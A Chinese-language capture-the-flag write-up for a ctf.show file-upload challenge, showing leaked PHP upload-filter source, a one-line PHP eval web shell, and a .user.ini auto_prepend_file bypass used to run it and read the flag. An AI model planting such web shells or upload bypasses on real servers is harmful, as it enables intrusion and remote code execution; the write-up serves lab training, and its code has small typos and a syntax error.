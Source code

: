 ```yaml
---
title: "Web13  @WEB"
date: 2023-08-24
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 文件上传题，尝试了一下大小写、双写、空格、$DATA、%00截断无果，整理了一下思路，决定从源码泄露入手。

这里列举一下常见的源码泄露
 .hg源码泄漏 .git源码泄漏 .DS_Store文件泄漏，还有以.phps .bak结尾的网页

这里访问upload.php.bak时成功下载下源码，.bak是备份文件

```php
<?php 
    header("content-type:text/html;charset=utf-8");
    $filename = $_FILES['file']['name'];
    $temp_name = $_FILES['file']['tmp_name'];
    $size = $_FILES['file']['size'];
    $error = $_FILES['file']['error'];
    $arr = pathinfo($filename);
    $ext_suffix = $arr['extension'];
    if ($size > 24){
        die("error file zise"); #文件小于等于24
    }
    if (strlen($filename)>9){
        die("error file name"); #文件名称小于等于9
    }
    if(strlen($ext_suffix)>3){
        die("error suffix"); #后缀长度小于3
    }
    if(preg_match("/php/i",$ext_suffix)){
        die("error suffix"); #文件中不得包含 php 
    }
    if(preg_match("/php/i"),$filename)){
        die("error file name"); #文件名称不得包含php
    }
    if (move_uploaded_file($temp_name, './'.$filename)){
        echo "文件上传成功！";
    }else{
        echo "文件上传失败！";
    }
 ?>
```

文件小于等于24可以用：<?php eval($_PSOT['a']);

先将语句写入1.txt上传，然后在上传.user.ini文件

对于php中的.user.ini有如下解释：

PHP 会在每个目录下搜寻的文件名；如果设定为空字符串则 PHP 不会搜寻。也就是在.user.ini中如果设置了文件名，那么任意一个页面都会将该文件中的内容包含进去
我们在.user.ini中输入auto_prepend_file =1.txt，这样在该目录下的所有文件都会包含a.txt的内容

上传之后发现可以上传但是不能操作，直接在网页搜索文件

![](/ctf.show/45/1.webp)

使用高亮语句，拿到flag

![](/ctf.show/45/2.webp)